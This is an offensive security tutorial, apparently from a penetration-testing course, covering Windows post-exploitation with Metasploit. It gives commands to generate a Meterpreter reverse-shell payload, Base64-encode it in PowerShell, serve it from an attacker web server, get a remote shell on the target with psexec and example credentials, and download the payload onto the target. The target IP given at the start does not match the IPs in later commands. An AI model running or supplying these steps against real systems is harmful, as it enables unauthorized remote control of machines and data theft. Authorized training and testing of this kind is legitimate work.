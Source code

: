 In my scenario, there are 3 machines in play:

The Windows target - 192.168.3.93
The attacker's Strategicsec Ubuntu machine - Strategic-Sec-Ubuntu-VM-IP
The attacker's Windows machine (used for running psexec standalone). Running as a VM - IP address is inconsequential.
The Preparation

Let's get started. Let's start by generating a PowerShell script which executes our Meterpreter payload. This is simple by using msfpayload and msfencode:

msfpayload windows/meterpreter/reverse_tcp LHOST=Strategic-Sec-Ubuntu-VM-IP LPORT=443 R | msfencode -t psh -a x86

While it's fresh on our minds, start the multi/handler in Metasploit to listen on Strategic-Sec-Ubuntu-VM-IP:443.

Although there's likely a quicker way to do the next steps, I chose to utilize my Windows VM. Start by copying the PSH script that was output above. In a Windows command prompt, perform the following:

c:\> powershell

PS c:\> $cmd = '<PASTE THE CONTENTS OF THE PSH SCRIPT HERE>'

PS c:\> $u = [System.Text.Encoding]::Unicode.GetBytes($cmd)

PS c:\> $e = [Convert]::ToBase64String($u)

PS c:\> $e

The above converts our script to Unicode and then Base64 encodes it. A couple of notes... Replace everything in red above (including the '<' and '>' characters) with the script generated by msfpayload/msfencode. This will be a multiline command. Ensure the single quotes are present. You may have to press "Enter" a few times after typing the closing single quote.

The last line in the PowerShell series simply prints the encoded payload to the screen. Copy this value and clean it up by removing all new lines. Your encoded data must not span multiple lines.

Save the cleaned up, encoded payload on the attacking machine under a directory served by Apache (or whatever web server you prefer). In my case, I'll save it as "shell.txt" in /var/www. Start your web server and verify that the file is accessible.

The Execution

On your Windows machine, lets get a remote command prompt on the target (this assumes that you have valid credentials on the target).

c:\> psexec \\10.1.1.10 -u domain\jdoe -p s3cr3t cmd.exe

With all the setup in place, we'll now proceed to download our encoded payload and execute it.

In the command prompt we just obtained, enter the following to download our encoded payload:

c:\> powershell -noprofile -noninteractive -command "& {$client=new-object System.Net.WebClient;$client.DownloadFile('http://10.1.1.20/shell.txt','c:\windows\temp\_shell.txt')}"

For those of you familiar with WGET, the above basically duplicates that functionality. It downloads the file "shell.txt" from http://10.1.1.20 (our attacking machine with the web server running) and saves it to c:\windows\temp\_shell.txt on the target server.
